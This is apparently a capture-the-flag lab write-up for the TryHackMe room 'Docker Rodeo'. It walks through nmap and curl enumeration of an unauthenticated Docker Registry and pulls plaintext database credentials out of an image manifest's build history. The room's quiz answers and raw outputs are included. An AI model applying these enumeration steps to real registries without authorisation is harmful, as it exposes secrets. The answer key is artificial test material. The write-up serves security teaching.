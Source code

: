 As with any system that we are going to be penetration testing, we need to enumerate the services running to understand any potential entry points. In our case, **Docker Registry runs on port 5000 by default**, however, this can be easily changed, so it is worth confirming via with a nmap scan like so: `sudo nmap -sV 10.10.13.105`

![](https://i.imgur.com/rz4orgs.png)  

Not only is Nmap capable of discovering the Docker Registry, but also the API version - this is important to note for how we will interact with it.

The Docker Registry is a JSON endpoint, so we cannot just simply interact with it like we would a normal website - we will have to query it. Whilst this can be done via the terminal or browser, dedicated tools such as [Postman](https://www.postman.com/downloads/) or [Insomnia](https://insomnia.rest/download/) are much better suited for the job. I will be using Postman in this room.

To understand what routes are available to us, we need to read the [Docker Registry Documentation](https://docs.docker.com/registry/spec/api/). Please take the time to read this at your leisure.

3.2.1. Discovering Repositories 

We need to send a `GET` request to `http://docker-rodeo.thm:5000/v2/_catalog` to list all the repositories registered on the registry.

![](https://resources.cmnatic.co.uk/TryHackMe/rooms/docker-rodeo/dockerregistry/catalog1.png)

In this example, we're given a response of three repositories. For now, we are only going to focus on "cmnatic/myapp1".

Before we can begin analysing a repository, we need two key pieces of information: 

1. The repository name

2. Any repository tag(s) published

We currently have the repository name (**cmnatic/myapp1**) now we just need to list all tags that have been published. Every repository will have a minimum of one tag. This tag is the "**latest**" tag, but there can be many tags, all with different code, for example, major software versions or two tags for "**production**" and "**development**".

Send a `GET` request to`http://docker-rodeo.thm:5000/v2/**repository/name**/tags/list` to query all published tags. For our application, our request would look like so: `http://docker-rodeo.thm:5000/v2/**cmnatic**/**myapp1**/tags/list`:

![](https://resources.cmnatic.co.uk/TryHackMe/rooms/docker-rodeo/dockerregistry/listingtags.png)  

Note here we have three tags? That **"notsecure"** tag sure sounds interesting. We now have both pieces of information to retrieve the manifest files of the image for analysis.

3.2.2. Grabbing the Data!  

With these two important pieces of information about a repository known, we can enumerate that specific repository for a manifest file. This manifest file contains various pieces of information about the application, such as size, layers and other information. I'm going to grab the manifest file for the **"notsecure"** tag via the following `GET`request: `http://docker-rodeo.thm:5000/v2/**cmnatic/myapp1**/manifests/**notsecure**`

Note the response - specifically the "**history**" key;  albeit slightly hard to read, we have a command that was executed during the image building stage stored in plaintext (``echo \\\"here's a flag\\\" \\u003e /root/root.txt\"]` `` ). In this image, it's a string insert into **/root/root.txt** on the container. Although imagine if this was a password!

![](https://resources.cmnatic.co.uk/TryHackMe/rooms/docker-rodeo/dockerregistry/manifest1.png)  

3.2.3. Now it's Your Turn...

Apply what we have done above, enumerate the 2nd Docker registry running on the Instance, find out what repositories are stored within it and ultimately extract some credentials for a database.

Answer the questions below

What is the port number of the 2nd Docker registry?

	 7000

What is the name of the repository within this registry?  

	 securesolutions/webserver

What is the name of the tag that has been published?  

	 production

What is the Username in the database configuration?  

	 admin

What is the Password in the database configuration?

	production_admin

```shell
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-28 20:28 CDT
Nmap scan report for 10.10.13.105
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Docker Registry (API: 2.0)
7000/tcp open  http    Docker Registry (API: 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.09 seconds
```

```shell
curl http://docker-rodeo.thm:5000/v2/_catalog

{"repositories":["cmnatic/myapp1","dive/challenge","dive/example"]}
```

```shell
curl http://docker-rodeo.thm:5000/v2/_catalog

{"repositories":["cmnatic/myapp1","dive/challenge","dive/example"]}
```

```shell
curl http://10.10.13.105:7000/v2/_catalog
{"repositories":["securesolutions/webserver"]}
```

```shell
curl http://10.10.13.105:7000/v2/securesolutions/webserver/tags/list

{"name":"securesolutions/webserver","tags":["production"]}
```

```shell
curl http://10.10.13.105:7000/v2/securesolutions/webserver/manifests/production

{
   "schemaVersion": 1,
   "name": "securesolutions/webserver",
   "tag": "production",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:7a668bba7a1a84d9db8a2fb2826f777e64233780a110041db8d42b797515cf57"
      },
      {
         "blobSum": "sha256:bc4544ab6267aaf520480ea4cc98e3169d252eab631801ef199b1ded807f306d"
      },
      {
         "blobSum": "sha256:07813898d5e66ad253cf5bb594a47c6963a75412ee3562d212d3bc1e896ad62f"
      },
      {
         "blobSum": "sha256:fdbb44f75d5b29f06c779f6eec33e886d165053275497583a150c9c2b444f3af"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:bb79b6b2107fea8e8a47133a660b78e3a546998fcf0427be39ac9a0af4a97e90"
      }
   ],
   "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"bash\"],\"ArgsEscaped\":true,\"Image\":\"sha256:1e4a2d11384ed8ac500f2762825c3f3d134ad5d78813a5d044357b66d4c91800\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":null},\"container\":\"72913ee3dc1d3bf6af92d8412b87a5803f04f7088ba7a8a4d8baf2de9078300d\",\"container_config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"printf \\\"Username: admin\\\\nPassword: production_admin\\\\n\\\" \\u003e /var/www/html/database.config\"],\"Image\":\"sha256:1e4a2d11384ed8ac500f2762825c3f3d134ad5d78813a5d044357b66d4c91800\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":null},\"created\":\"2020-10-24T19:48:37.160476683Z\",\"docker_version\":\"19.03.13\",\"id\":\"7b05b529c51e9322588fe7ef7e9be250681641b9f207900c035a26abc2b7eac2\",\"os\":\"linux\",\"parent\":\"a3531d00ed14133152959cb0bc77cb214a65638bb5e295f0a57262049f56add3\"}"
      },
      {
         "v1Compatibility": "{\"id\":\"a3531d00ed14133152959cb0bc77cb214a65638bb5e295f0a57262049f56add3\",\"parent\":\"a64c6dae778e931d83b59934a5b58f97b85e09c743ed1b18cb053ca0ecd2c58a\",\"created\":\"2020-10-24T19:48:36.298388069Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) COPY file:2c21f1c2caced37ec7c49be85e912509576e3aa6c68101bc90d3f56ae682b19c in /var/www/html/database.config \"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"a64c6dae778e931d83b59934a5b58f97b85e09c743ed1b18cb053ca0ecd2c58a\",\"parent\":\"2f585dc1662c7b0b99f93dfea45dd83e4b2bebdbf3e470c01e0569b941cb2cea\",\"created\":\"2020-10-24T19:48:36.007380392Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c mkdir -p /var/www/html/\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"2f585dc1662c7b0b99f93dfea45dd83e4b2bebdbf3e470c01e0569b941cb2cea\",\"parent\":\"3a41447eea9358b0bfca1df658a78a9fcfe2f8281da222f9bea7a70e2dc0a03c\",\"created\":\"2020-10-24T19:46:44.83701677Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c apt-get update -y\"]}}"
      },
      {
         "v1Compatibility": "{\"id\":\"3a41447eea9358b0bfca1df658a78a9fcfe2f8281da222f9bea7a70e2dc0a03c\",\"parent\":\"5bd584b8f9464a6553e557ab0eceb484a63e77ab1b552c05eab75eeedde7c6d0\",\"created\":\"2020-10-13T01:39:05.467867564Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  CMD [\\\"bash\\\"]\"]},\"throwaway\":true}"
      },
      {
         "v1Compatibility": "{\"id\":\"5bd584b8f9464a6553e557ab0eceb484a63e77ab1b552c05eab75eeedde7c6d0\",\"created\":\"2020-10-13T01:39:05.233816802Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:0dc53e7886c35bc21ae6c4f6cedda54d56ae9c9e9cd367678f1a72e68b3c43d4 in / \"]}}"
      }
   ],
   "signatures": [
      {
         "header": {
            "jwk": {
               "crv": "P-256",
               "kid": "QHPR:B54B:QYBN:6HDH:OZ6E:RWXY:5GRN:2WL7:NXBI:626Y:ALEQ:LEKO",
               "kty": "EC",
               "x": "fmOeRiHvzpBMzCQjunmO8Btr4yBZ66AScZI2cIc2vdU",
               "y": "IlI0hZv602C51Dul7EeLV-JBdkCOxc7dSSCRecuzNvM"
            },
            "alg": "ES256"
         },
         "signature": "hoHMWtjqOZ3GigBr8YVMS_Uy5Pbbs8IVqqOblaBI7elw4TZvA2MMJO1e8z6C79jQQLobnTFjPIOytKQpM-zyMQ",
         "protected": "eyJmb3JtYXRMZW5ndGgiOjQwMTksImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAyMi0wMy0yOVQwMTo1MTo1OFoifQ"
      }
   ]
}
```